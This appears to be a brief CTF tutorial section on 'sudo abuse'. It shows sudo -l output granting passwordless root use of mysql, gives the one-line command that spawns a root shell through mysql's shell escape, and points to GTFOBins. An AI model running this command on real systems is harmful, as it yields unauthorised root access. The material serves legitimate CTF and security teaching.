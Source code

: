 ## Sudo Abuse

Sudo abuse is one of the most common method in CTF.

```
nullbr41n@demo:~$ sudo -l
..........................:
    env_reset, mail_badpass, secure_path=....................

User nullbr41n may run the following commands on demo:
    (root) NOPASSWD: /usr/bin/mysql
```

In such senario you could abuse mysql's command execute feature (`-e`) in conjunction with mysqls feature of executing shell command (`\!`)


```
sudo mysql -e '\! /bin/sh'
```

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
